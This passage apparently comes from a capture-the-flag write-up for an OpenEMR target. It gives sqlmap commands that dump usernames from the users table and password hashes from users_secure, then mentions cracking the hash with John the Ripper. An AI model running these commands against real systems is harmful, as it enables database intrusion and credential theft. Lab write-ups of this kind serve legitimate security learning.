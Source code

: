 
i just skip to all proses to get tables and column name, execute this command below for getting username

```bash
sqlmap -r portal.req --batch -D openemr -T users -C username --dump
```

![](/assets/img/cache/11.png)

and command for dumping password

```bash
sqlmap -r portal.req --batch -D openemr -T users_secure -C password --dump
```

![](/assets/img/cache/12.png)

yay! we've got salt password, let john the ripper crack this hash

![](/assets/img/cache/13.png)

